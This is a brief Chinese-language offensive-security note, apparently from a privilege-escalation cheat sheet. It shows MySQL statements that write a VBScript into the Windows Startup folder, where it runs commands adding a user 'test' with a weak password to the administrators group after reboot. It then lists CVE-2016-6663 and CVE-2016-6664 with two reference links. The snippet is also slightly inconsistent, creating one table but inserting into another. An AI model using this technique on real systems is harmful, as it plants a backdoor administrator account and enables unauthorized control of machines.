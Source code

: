 通过mysql的话：

```sql
use mysql;
create table test(cmd text);
insert into a values(“set wshshell=createobject(“”wscript.shell””)”);
insert into a values(“a=wshshell.run(“”cmd.exe /c net user test test123 /add“”,0)”);
insert into a values(“b=wshshell.run(“”cmd.exe /c net localgroup administrators test /add“”,0)”);
select * from a into outfile “C:\Documents and Settings\All Users\「开始」菜单\程序\启动\secist.vbs”;
```

重启之后可以提权

# CVE-2016-6663和CVE-2016-6664

https://www.freebuf.com/articles/web/288941.html

https://lengjibo.github.io/mysqludf/








